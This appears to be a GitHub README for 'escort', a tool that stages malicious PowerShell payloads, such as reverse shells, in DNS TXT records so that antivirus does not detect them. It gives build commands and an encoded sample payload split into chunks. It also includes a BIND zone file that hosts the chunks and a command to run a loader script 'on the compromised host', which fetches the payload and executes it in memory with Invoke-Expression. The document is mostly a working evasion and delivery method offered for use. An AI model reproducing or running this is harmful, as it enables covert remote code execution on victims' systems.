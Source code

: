 # Escort

![](./escort.jpg)

`escort` is an experiment at using DNS TXT records for transmitting malicious payloads to bypass Anti Virus detection. It currently only supports PowerShell payloads (ie reverse shells with powershell) however ideally I will expand this to other potential payload systems. It consists of taking your payload, compressing with DEFLATE and base64 encoding it. If the resultant payload is larger than 255 characters (the maximum limit for DNS TXT records) the payload is broken up into 255 character (or less) segments. When the PowerShell script is ran it will reconstruct the base64 encoded payload, decompress it, and then execute it with the `Invoke-Expression` cmdlet to avoid writing the script to disk.

# Usage

To showcase usage an example payload is included in `payload.txt`

```shell
$> git clone https://github.com/bonedaddy/escort
$> cd escort
$> go build
$> ./escort --input.file payload.txt compress
TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnIY7bDZ # part 1
Z4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8= # part 2
```

You then want to add these values to your DNS host in order. For example in BIND zone files you would add this as follows:

```bind
$ORIGIN example.org.
@	3600 IN	SOA sns.dns.icann.org. noc.dns.icann.org. (
				2017042745 ; serial
				7200       ; refresh (2 hours)
				3600       ; retry (1 hour)
				1209600    ; expire (2 weeks)
				3600       ; minimum (1 hour)
				)

	3600 IN NS a.iana-servers.net.
	3600 IN NS b.iana-servers.net.

test4   IN TXT   "TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnIY7bDZ"
test4   IN TXT   "Z4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8="
```

On the compromised host you would run `escort.ps1 as follows:

```
$> .\escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
```

This will query the host `test4.example.org` for TXT records and use that to construct the payload.


# Caveats

Due to the usage of DEFLATE the powershell script you are compressing and base64 encoding must be a minimum of 45 characters in length, otherwise you should skip the deflate process.